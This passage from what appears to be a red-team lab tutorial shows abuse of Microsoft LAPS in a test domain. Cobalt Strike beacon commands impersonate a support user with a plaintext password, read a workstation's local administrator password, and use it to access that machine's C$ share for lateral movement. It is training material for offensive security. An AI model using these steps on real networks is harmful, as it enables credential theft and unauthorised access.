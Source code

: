 This isn't particularly useful as if you already have Domain Admin privileges, you probably don't need to leverage the LAPS passwords. However, if we have the credentials for somebody in the `1st Line Support`, this could allow us to move laterally to a machine with an even higher-privileged user logged on.

bfarmer cannot read the LAPS passwords:

```
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```

Make a token (or use some other method of impersonation) for a user in the `1st Line Support` group.

```
beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 3/23/2021 5:18:43 PM

beacon> rev2self
beacon> make_token .\lapsadmin P0OPwa4R64AkbJ
beacon> ls \\wkstn-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     03/16/2021 17:09:07   Program Files
          dir     03/04/2021 15:58:19   Program Files (x86)
          dir     03/16/2021 17:51:42   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     03/03/2021 12:17:35   Users
          dir     02/17/2021 16:16:17   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 704mb    fil     03/16/2021 17:01:51   pagefile.sys
```
